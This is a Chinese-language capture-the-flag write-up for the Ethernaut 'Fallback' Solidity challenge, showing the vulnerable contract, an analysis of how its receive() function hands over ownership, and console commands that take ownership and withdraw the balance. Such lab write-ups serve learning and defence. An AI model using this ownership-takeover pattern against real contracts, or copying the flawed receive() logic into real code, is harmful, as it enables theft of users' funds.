







A-Ethernaut-CTF
------------------------

Day2 2024.08.30

FallBack
------------------------
1. 獲得合約所有權
2. 將餘額用成 0

題目：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

解題：

1. 先確定怎麼變成 owner
  在 constructor 一開始部署合約就會變成 `owner`，另外 `contributions[msg.sender]` 會有初始資金

  ```solidity
  constructor() {
      owner = msg.sender;
      contributions[msg.sender] = 1000 * (1 ether);
  }
  ```
  p.s. msg.sender 為送出交易的人

2. 在確定 owner 所有權的控制

  ```solidity
    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }
  ```
3.哪裡可以轉錢，有沒有設定 owner，沒有的話直接轉就結束了，目標攻破 `withdraw()`

  恩... 有使用

    ```solidity
      function withdraw() public onlyOwner {
          payable(owner).transfer(address(this).balance);
      }
    ```

4.找一下哪裡會改變 owner ... ` owner =xxxxx`

兩個地方

```solidity
    // 誰最有錢就是 owner （成本太高了... 如果有金錢的力量...)
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    /* 送出的金額 > 0 和 contributions[msg.sender] > 0 就可以變成 owner 而 receive event 是 solidity 的特殊語法，就是當 function 沒有名稱時，就會被當作 fallback function 直接呼叫(看起來問題就在這裡) */

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

5.攻擊想法
- 先讓 contributions[msg.sender] > 0
- 透過 `receive()` 變成 owner
- 取走所有的錢


過程：

1. 按下 Get New Instance 不然會有錯誤

2. Instance 成功


3. 透過 contribute() 送出 0.0001 ether

```solidity
await contract.contribute({value: toWei("0.000001")})
```


4. 確認 owner 是誰，觸發 receive() 變成 owner

```solidity
await contract.owner()
await contract.sendTransaction({value: toWei("0.000001")})
```




5. 確認 owner 是不是自己

```solidity
await contract.owner()
```


6. 取走所有的錢

```solidity
await contract.withdraw()
await getBalance(instance)
```



7. 題目完成



POC:

[Fallback.t.sol](../A-Ethernaut-CTF/POC/test/2/Fallback.t.sol)